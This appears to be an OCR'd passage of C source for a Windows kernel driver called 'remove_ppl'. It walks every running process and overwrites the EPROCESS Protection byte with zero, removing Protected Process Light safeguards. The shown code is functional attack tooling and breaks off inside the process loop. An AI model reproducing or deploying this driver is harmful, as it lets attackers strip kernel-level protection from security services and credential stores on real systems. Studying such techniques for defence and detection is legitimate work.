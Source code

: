 ```
NTKERNELAPI UCHAR* PsGetProcessImageFileName(__in PEPROCESS Process);

VOID OnUnload(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);
    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: unload driver\n"));
}

NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath) {
    ULONG BufferSize = 0;
    NTSTATUS Status = STATUS_SUCCESS;
    PVOID Buffer = NULL;
    PSYSTEM_PROCESS_INFORMATION pInfo = NULL;

    UNREFERENCED_PARAMETER(DriverObject);
    UNREFERENCED_PARAMETER(RegistryPath);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: driver entry\n"));

    // register unload function
    DriverObject->DriverUnload = OnUnload;

    // get size of SYSTEM_PROCESS_INFORMATION
    Status = ZwQuerySystemInformation(SystemProcessInformation, NULL, 0, &BufferSize);
    if (Status != STATUS_INFO_LENGTH_MISMATCH) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: ZwQuerySystemInformation get size failed status=0x%x\n", Status));
        goto _LABEL_EXIT;
    }

    // alloc memory and get SYSTEM_PROCESS_INFORMATION
    Buffer = ExAllocatePoolWithTag(PagedPool, BufferSize, '1gaT');
    if (Buffer == NULL) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: ExAllocatePoolWithTag failed\n"));
        goto _LABEL_EXIT;
    }
    Status = ZwQuerySystemInformation(SystemProcessInformation, Buffer, BufferSize, &BufferSize);
    if (Status != STATUS_SUCCESS) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: ZwQuerySystemInformation get info failed status=0x%x\n", Status));
        goto _LABEL_EXIT;
    }

    // traverse all processes and rewrite "Protection" to 0x00
    pInfo = (PSYSTEM_PROCESS_INFORMATION)Buffer;
    do {
        PEPROCESS Process = NULL;
        Status = PsLookupProcessByProcessId(pInfo->UniqueProcessId, &Process);
        if (NT_SUCCESS(Status)) {
            BYTE* Protection = (BYTE*)Process + EPROCESS_PROTECTION_OFFSET;
            if (*Protection != 0) {
                KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: rewrite %s[%d] Protection=0x%x to 0x00\n",
                    PsGetProcessImageFileName(Process), pInfo->UniqueProcessId, *Protection));
                *Protection = 0x00;
            }
        }
        else {
            KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "remove_ppl: PsLookupProcessByProcessId [%d] failed status=0x%x\n",
                pInfo->UniqueProcessId, Status));
        }
```